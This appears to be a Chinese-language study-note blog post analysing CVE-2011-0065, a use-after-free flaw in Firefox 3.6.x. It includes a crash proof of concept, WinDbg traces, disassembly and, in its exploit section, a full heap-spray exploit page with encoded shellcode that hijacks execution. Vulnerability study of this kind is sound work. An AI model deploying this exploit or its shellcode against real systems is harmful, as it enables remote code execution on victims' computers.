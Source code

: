```yaml
---
layout: post
title:  "Cve-2011-0065(uaf)"
date:   2019-6-8
categories: 《漏洞战争》cve-2011-0065(uaf)
excerpt: 
---
```


* content
{:toc}



# **cve-2011-0065**

## **漏洞简介**

在Firefox浏览器3.5.19之前的版本，以及3.6.17之前的3.6.x版本中存在UAF漏洞，mChannel对象在被释放后，成为了悬挂指针，然后又在后面被重新引用，导致利用漏洞可执行任意代码。

## **测试环境**

操作系统 Win XP SP3

火狐版本 3.6.16

## **漏洞分析**

poc:
	<html>
	<body>
	<object id="d"><object>
	<script type="text/javascript">
		var e;
		e=document.getElementById("d");

		e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new Object('0c'),0);
		e.data = "";

	</script>
	</body>
	</html>
作者原书中用的是Win7作为分析，我原本也是用这个的，但后来在操作的过程中发现我在漏洞的现场所得到的代码和作者以及网上找的其他人的都不同，包括栈回溯栈上函数名均不同。我得到的是如下代码，但在栈回溯中看返回地址所在的函数时，里面的代码却和作者是相同的，这就证明了我的分析没有问题，但就是函数名的不对应。

	First chance exceptions are reported before any exception handling.

	This exception may be expected and handled.

	eax=045e3200 ebx=049f9044 ecx=04580c00 edx=057072b0 esi=804b0002 edi=80000000

	eip=02e4e55c esp=0012f604 ebp=0012f814 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246

	02e4e55c c033e5 sal byte ptr [ebx],0E5h ds:0023:049f9044=f0

	*** ERROR: Symbol file could not be found. Defaulted to export symbols for
	C:Program FilesMozilla Firefoxxul.dll -

	*** ERROR: Symbol file could not be found. Defaulted to export symbols for
	C:Program FilesMozilla Firefoxnspr4.dll -

	0:000> kv

	ChildEBP RetAddr Args to Child

	WARNING: Frame IP not in any known module. Following frames may be wrong.

	0012f600 107f4e75 045e3200 804b0002 00000000 0x2e4e55c

	0012f814 107f5659 049f9044 044a6a80 00000001 xul!gfxFontUtils::ReadNames+0x14735

	0012f844 107f6155 049f9044 0012f8fc 00000001 xul!gfxFontUtils::ReadNames+0x14f19

	0012f9b0 0037d120 72c68d20 00376bdf 0000000a xul!gfxFontUtils::ReadNames+0x15a15

	0012f9e8 107f61a3 049f9020 00000001 100b2902 nspr4!PR_Now+0x40

	0012f9f4 100b2902 00000001 04157d00 059cb600 xul!gfxFontUtils::ReadNames+0x15a63

	0012fa10 100b21d2 00000048 00000000 00000000
	xul!gfxMatrix::HasNonTranslation+0x2c52

	00000000 00000000 00000000 00000000 00000000
	xul!gfxMatrix::HasNonTranslation+0x2522

	0:000> ub 107f4e75

	xul!gfxFontUtils::ReadNames+0x1471f:

	107f4e5f 8bce mov ecx,esi

	107f4e61 e81a6991ff call xul!NS_CycleCollectorSuspect2_P+0x2a0 (1010b780)

	107f4e66 8b4350 mov eax,dword ptr [ebx+50h]

	107f4e69 8b08 mov ecx,dword ptr [eax]

	107f4e6b be02004b80 mov esi,804B0002h

	107f4e70 56 push esi

	107f4e71 50 push eax

	107f4e72 ff5118 call dword ptr [ecx+18h]

	原本认为这不是个什么大问题，但看下去发现作者是通过分析poc中有的onChannelRedirect函数来定位漏洞点，我尝试寻找这个函数却发现找到不。也应该还是函数名的问题。

	e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new
	Object('0c'),0);

	0:000> x xul!*::onChannelRedirect

后来才发现因为火狐符号包没有导入的原因，所以出现了函数名不正确的问题，之后一直导入不了符号包，那就无法根据作者的方法来定位漏洞位置。还好后来在网上找到了一篇是用Win
XP调试的文章，那如果换成xp就不会有ASLR的烦恼，函数的地址也是确定的，可以通过那篇文章找到的onChannelRedirect的地址来定位我这里想要找的。

	找到了104623b0就是onChannelRedirect函数的地址。

	0:000> u 104623b0

	xul!JSD_GetClosestLine+0x10f5c:

	104623b0 8b4c2408 mov ecx,dword ptr [esp+8]

	104623b4 56 push esi

	104623b5 8b742408 mov esi,dword ptr [esp+8]

	104623b9 3b4e1c cmp ecx,dword ptr [esi+1Ch]

	104623bc 7407 je xul!JSD_GetClosestLine+0x10f71 (104623c5)

	104623be b802004b80 mov eax,804B0002h

	104623c3 eb1a jmp xul!JSD_GetClosestLine+0x10f8b (104623df)

	104623c5 8b4624 mov eax,dword ptr [esi+24h]

将断点下在onChannelRedirect函数后运行。[esi+1Ch]就是指mChannel对象。

	0:000> uf 104623b0

	xul!JSD_GetClosestLine+0x10f5c:

	104623b0 8b4c2408 mov ecx,dword ptr [esp+8]

	104623b4 56 push esi

	104623b5 8b742408 mov esi,dword ptr [esp+8]

	104623b9 3b4e1c cmp ecx,dword ptr [esi+1Ch]

	104623bc 7407 je xul!JSD_GetClosestLine+0x10f71 (104623c5)

	xul!JSD_GetClosestLine+0x10f6a:

	104623be b802004b80 mov eax,804B0002h

	104623c3 eb1a jmp xul!JSD_GetClosestLine+0x10f8b (104623df)

	xul!JSD_GetClosestLine+0x10f71:

	104623c5 8b4624 mov eax,dword ptr [esi+24h]

	104623c8 85c0 test eax,eax

	104623ca 57 push edi

	104623cb 8b7c2414 mov edi,dword ptr [esp+14h]

	104623cf 7408 je xul!JSD_GetClosestLine+0x10f85 (104623d9)

	xul!JSD_GetClosestLine+0x10f7d:

	104623d1 8b10 mov edx,dword ptr [eax]

	104623d3 57 push edi

	104623d4 51 push ecx

	104623d5 50 push eax

	104623d6 ff5210 call dword ptr [edx+10h]

	xul!JSD_GetClosestLine+0x10f85:

	104623d9 897e1c mov dword ptr [esi+1Ch],edi

	104623dc 33c0 xor eax,eax

	104623de 5f pop edi

	xul!JSD_GetClosestLine+0x10f8b:

	104623df 5e pop esi

	104623e0 c21000 ret 10h

这是ida反汇编的伪代码，说实在的，反汇编的挺抽象的。

	signed int __stdcall sub_104623B0(int a1, int a2, int a3, int a4)

	{

		int v5; // eax

		if ( a2 != *(_DWORD *)(a1 + 28) )

			return -2142568446;

		v5 = *(_DWORD *)(a1 + 36);

		if ( v5 )

			(*(void (__stdcall **)(int, int, int))(*(_DWORD *)v5 + 16))(v5, a2, a3);

		*(_DWORD *)(a1 + 28) = a3;

		return 0;

	}

实际的反汇编应该是这样的。

	If(aOldChannel !=mChannel)

	{

		Return NS_BINDING_ABORTED;

	}

	If(mClassifier){

		mClassifier->OnRedirect(aOldChannel,aNewChannel);

	}

因为Firefox本身的垃圾回收机制，在OnChannelRedirect函数调用完毕后，它会回收不再使用的对象，然后mChannel就成了悬挂指针。在后面被重新调用，产生了漏洞。后面分析的时候又出现了一点问题，本来接下去应该往下分析哪里重新引用了已经释放的对象，但我这下断点的时候却下不到那个位置，一直卡在了这个位置，f5也出不去。

	0:017> bp 107f5659

	*** ERROR: Symbol file could not be found. Defaulted to export symbols for
	C:Program FilesMozilla Firefoxxul.dll -

	0:017> bl

	0 e 107f5659 0001 (0001) 0:**** xul!gfxFontUtils::ReadNames+0x14f19

	0:017> g

	(3e4.a80): Access violation - code c0000005 (first chance)

	First chance exceptions are reported before any exception handling.

	This exception may be expected and handled.

	eax=066b9a60 ebx=066fcf84 ecx=05458400 edx=06d76d30 esi=804b0002 edi=80000000

	eip=0237ec7c esp=0012f604 ebp=0012f814 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246

	0237ec7c 60 pushad

	*** ERROR: Symbol file could not be found. Defaulted to export symbols for
	C:Program FilesMozilla Firefoxnspr4.dll -

	0:000> g

	(3e4.a80): Access violation - code c0000005 (!!! second chance !!!)

	eax=066b9a60 ebx=066fcf84 ecx=05458400 edx=06d76d30 esi=804b0002 edi=80000000

	eip=0237ec7c esp=0012f604 ebp=0012f814 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246

	0237ec7c 60 pushad

也无法定位到xul!gfxFontUtils::ReadName这个的位置。

	0:000> kv

	ChildEBP RetAddr Args to Child

	WARNING: Frame IP not in any known module. Following frames may be wrong.

	0012f600 107f4e75 0964a8a0 804b0002 00000000 0x31212d4

	0012f814 107f5659 0b0d5764 0484e030 00000001 xul!gfxFontUtils::ReadNames+0x14735

	0012f844 107f6155 0b0d5764 0012f8fc 00000001 xul!gfxFontUtils::ReadNames+0x14f19

	0012f9b0 0037d120 a0493d40 00376bf5 0000000a xul!gfxFontUtils::ReadNames+0x15a15

	0012f9e8 107f61a3 0b0d5740 00000001 100b2902 nspr4!PR_Now+0x40

	0012f9f4 100b2902 00000001 05596480 030fbe00 xul!gfxFontUtils::ReadNames+0x15a63

	0012fa10 100b21d2 00000048 00000000 00000000
	xul!gfxMatrix::HasNonTranslation+0x2c52

	00000000 00000000 00000000 00000000 00000000
	xul!gfxMatrix::HasNonTranslation+0x2522

	0:000> ub 107f4e75

	xul!gfxFontUtils::ReadNames+0x1471f:

	107f4e5f 8bce mov ecx,esi

	107f4e61 e81a6991ff call xul!NS_CycleCollectorSuspect2_P+0x2a0 (1010b780)

	107f4e66 8b4350 mov eax,dword ptr [ebx+50h]

	107f4e69 8b08 mov ecx,dword ptr [eax]

	107f4e6b be02004b80 mov esi,804B0002h

	107f4e70 56 push esi

	107f4e71 50 push eax

	107f4e72 ff5118 call dword ptr [ecx+18h]

	0:000> bu xul!gfxFontUtils::ReadNames+0x1471f

	Matched: 107e04e8 xul!gfxFontUtils::ReadNames (<no parameter info>)

	Matched: 107e0740 xul!gfxFontUtils::ReadNames (<no parameter info>)

	Ambiguous symbol error at 'xul!gfxFontUtils::ReadNames+0x1471f'

	0:000> u 107e0740

	xul!gfxFontUtils::ReadNames:

	107e0740 ff742410 push dword ptr [esp+10h]

	107e0744 ff742410 push dword ptr [esp+10h]

	107e0748 6aff push 0FFFFFFFFh

	107e074a ff742414 push dword ptr [esp+14h]

	107e074e ff742414 push dword ptr [esp+14h]

	107e0752 e891fdffff call xul!gfxFontUtils::ReadNames (107e04e8)

	107e0757 83c414 add esp,14h

	107e075a c3 ret

	0:000> bu 107e04e8

	0:000> bp 107e04e8

	0:000> g

	(9f8.3ec): Break instruction exception - code 80000003 (first chance)

	eax=7ffd6000 ebx=00000001 ecx=00000002 edx=00000003 esi=00000004 edi=00000005

	eip=7c92120e esp=0358ffcc ebp=0358fff4 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=0038 gs=0000 efl=00000246

	ntdll!DbgBreakPoint:

	7c92120e cc int 3

	0:019> g

	(9f8.cc): Access violation - code c0000005 (first chance)

	First chance exceptions are reported before any exception handling.

	This exception may be expected and handled.

	eax=0360c8d0 ebx=096701c4 ecx=03677000 edx=02f899d0 esi=804b0002 edi=80000000

	eip=02f5431c esp=0012f604 ebp=0012f814 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00010246

	02f5431c 40 inc eax

	*** ERROR: Symbol file could not be found. Defaulted to export symbols for
	C:Program FilesMozilla Firefoxnspr4.dll -

	0:000> g

	(9f8.cc): Access violation - code c0000005 (!!! second chance !!!)

	eax=0360c8d0 ebx=096701c4 ecx=03677000 edx=02f899d0 esi=804b0002 edi=80000000

	eip=02f5431c esp=0012f604 ebp=0012f814 iopl=0 nv up ei pl zr na pe nc

	cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000246

	02f5431c 40 inc eax

也不知道是什么原因。

## **漏洞利用**

exp:

	<html>
	<body>
	<object id="d"><object>
	<script type="text/javascript">

			
	e = document.getElementById("d");
	e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new Object,0)
	fake_obj_addr = unescape("\x1C%u0c0c")

	//%
	// taken and modified from adobe_flashplayer_newfunction.rb %u1a77%u3e43  65e3f263  7D66A4E8
	var sc = unescape("%u4141%u4141%u0028%u0c0c%uc012%u5ddb%u4141%u4141%ua4e8%u7d66%u4141%u4141%uffae%u65e3%u4141%u4141%u0028%u0c0c%u4141%u4141%u4141%u4141%u4141%u4141%u1ad4%u7c80%u0084%u0c0c%u0028%u0c0c%u0400%u0000%u0040%u0000%u0028%u0c0c%uf00d%ubeef%u4413%u7c87%u0048%u0c0c%u0c00%u0c0c%u0400%u0000%u0040%u0000%u7174%u7276%u8646%ub0fc%u677b%u85bf%ubed6%u4fa8%uf987%u109b%uebd1%u2425%u0591%u349f%u9892%u3c4b%u731d%u7c78%u0c75%u42b7%ub997%u4e8d%ue389%ua927%u437f%u1c93%ub596%ud53b%ub6b4%u7748%u3115%uc7fe%uf8c0%u492c%u354a%u90b3%ud422%u14b1%ue083%ufd03%u2ab2%u3fe2%uf588%uba99%u047a%u2fb8%u7947%u3d2d%u7679%ubb41%ubba9%ub6b5%u2c71%u93ba%u2173%u7de1%u983d%u3fb1%ub88d%u9937%u6b14%u2ff9%u9134%u664f%u9fa8%u277e%u7a4e%u0147%u25e2%u2b46%u0cfd%u1cb2%u3590%ub9b3%u1d77%uf680%u3cd6%ueb8c%u1240%u3af8%u2dd4%u677f%u7241%u087c%u33e0%u0dfc%u9b97%u4b96%uf51b%ue381%u0543%u7b70%u0474%u00b0%ub4d5%ub724%u4978%u4a75%u1592%u48bf%ube42%u7c99%u7714%u9142%u2cb7%u24be%u9b2d%u7d71%u7b7a%u663f%u4398%u7973%ud428%u3d70%ub2b5%u0592%ub347%ubb96%u34b8%ub44a%ub904%u3578%ufc18%u904f%u41a8%ue211%ue30a%ud01a%ud6d2%u8da9%u0c7f%u4627%u13bf%ud3f7%ub1f8%u4840%u3715%u9f97%u3c75%uf50b%ud539%u7293%u324b%u30eb%ub6f9%u1949%uc1ff%u25e1%ue029%ufd38%ub067%u4e1c%u1dba%u742f%u760d%u7c7e%u277d%u4273%ufd02%u2d79%ua99b%ub11d%u7598%uf803%u7f35%ue320%u3f43%ub8ba%u7b9f%uf52b%u7a92%ub42c%u3dbe%u7191%u7072%ub766%u1c2f%ubf15%ub367%ubbb9%ue084%u4a41%u8925%u0cf9%u7677%ufc13%ueb81%u0d46%u4f90%u2147%u78d6%u9914%ud469%u05b2%u3cb5%u88b6%u4be1%u4897%u8da8%u24b0%u3334%u4ed5%u4093%u7496%u4904%ue20a%u7e37%u277f%u70b5%ue201%ub034%u7974%u1c7b%ud480%u4a8d%ua9b3%ue08c%u777e%u7204%u9947%ud232%u0dfc%u3776%u247a%u0b2f%ue1d1%u413f%ub8b2%u391d%u4ff5%ub625%u752d%u2973%u91f8%u909f%u4b7c%ue308%uf712%uc0c6%u9bfd%ua8b7%u40b9%u6796%u052c%u7149%u9843%u3cb1%u1935%u78eb%u9366%u144e%ud530%u9215%ubf0c%ubb42%u487d%u3dbe%ub4ba%ud687%u1146%u97f9%ueb20%u7f74%u777d%u4079%u8d3c%u0c9f%u4292%ufd6b%u97ba%ud618%ub798%uf909%u78b6%u7375%ub447%u227b%u23e0%ue3c1%ub02f%u1d70%u0035%u02e1%ub9d4%u7c37%uf83a%ue228%u717a%ud51b%u1472%u9646%u4148%ufc3b%u3d0d%u913f%ub3b2%ubb67%u9905%u2576%u1566%u93a9%ubfb8%u4a90%u7ea8%ueb31%u8434%u4fe2%u1c7b%u7cbe%u754e%uf538%u277a%ud085%u10e3%ue1d3%u724b%u7f2c%u7604%u8343%ue0f6%u9b49%u2d78%u247e%ub1b5%u3d70%u992d%u714f%ubb25%u9f48%u8da8%u3c7d%ubf9b%u4234%u1473%u4a41%u77b2%u9015%ufd40%u374b%u921c%u793f%u2c24%u1dd5%u0493%ub6b8%u4727%ub3b4%ua9b9%u67b5%ubad6%ube46%u49b1%u7491%u2a05%u0cf8%u2f98%u0df5%u4e96%u1a97%ub0d4%u6635%uf986%ufcb7%udb43%ub8d7%u42b3%u12d2%u74d9%uf424%u295f%ub1c9%u3144%u1947%u4703%u8319%ufcef%ub751%uf90b%ue10e%udad8%u23c4%u91f3%u7553%ub13a%u0410%ub18c%ueb50%ub367%u7880%u3431%u0033%ucf9e%uc575%ud791%uc60c%ue977%ud73f%u8969%u4434%u6e4e%ud0c1%ue5b2%uf281%uf8b2%u88c3%ue309%ud598%u12ad%u0a75%u5d99%uf902%u5c69%u33fa%u6e91%uc8c2%u15c1%u4402%ud71d%ua84d%u1020%u47ba%ue219%u8018%ufb2b%u8aeb%ufaf7%u4c00%uf073%u1a9d%u15d9%uf620%u2155%u09a9%ua382%u2de9%ud54e%u9f32%u3c66%u6960%ub793%u024a%u86d2%u3f44%ufeb8%u40c7%u00c2%ufb7e%u4439%udcfe%uc9a0%uc079%u7c00%u776d%u7fb7%u0192%u880d%u7e04%ua8e2%u1695%u9ac9%u833b%uae45%u2e30%ud8e4%u94ea%u5002%u83f4%u37ed%ua2fc%ue8d0%u1c47%u4576%uda0b%u726b%u0d21%u85f2%u323a%u169d%u95bc%u817e%u415d%u131a%uc0f5%ue081%uea76%u8f92%u2824%u192f%u5837%u3977%ub997%u74ef%uff84%ueece%u6f58%ucf7c%u00f4%u2f52%ub762%u4ae2%u2b06%u5dc2%uff5e%u4e00%ue1d7%ubc78%ub2b5%u122b%ue5c6%u52fd%uf968%u5aab")

	var ret_addr = unescape("%u0024%u0c0c")
	while(ret_addr.length+20+8 < 0x100000-18-12-12-12) {ret_addr += ret_addr}
	var b = ret_addr.substring(0,(0x48-0x24)/2)
	b += sc
	b += ret_addr
	var next = b.substring(0,0x10000/2)
	while(next.length<0x800000) {next += next}
	var again = next.substring(0,0x80000 - (0x1020-0x08)/2)
	array = new Array()
	for (n=0;n<0x1f0;n++){
		array[n] = again + sc
	}

	e.data = ""
			
	</script></body></html>
	
这段代码会在onChannelRedirect函数释放之后重新在创建一个和前面释放掉一样大的内存，地址在0x0c0c001c，这个内存会成为mChannel对象指向的，然后后面别重新利用，虚表指针就会指向0x0c0c001c。后面再用堆喷技术将shellcode喷到0x0c0c001c附近就可以实现劫持eip了。

	e = document.getElementById("d");

	e.QueryInterface(Components.interfaces.nsIChannelEventSink).onChannelRedirect(null,new
	Object,0)

	fake_obj_addr = unescape("x1C%u0c0c")


## **参考链接**

	《漏洞战争》

	<https://whereisk0shl.top/post/2017-05-14>
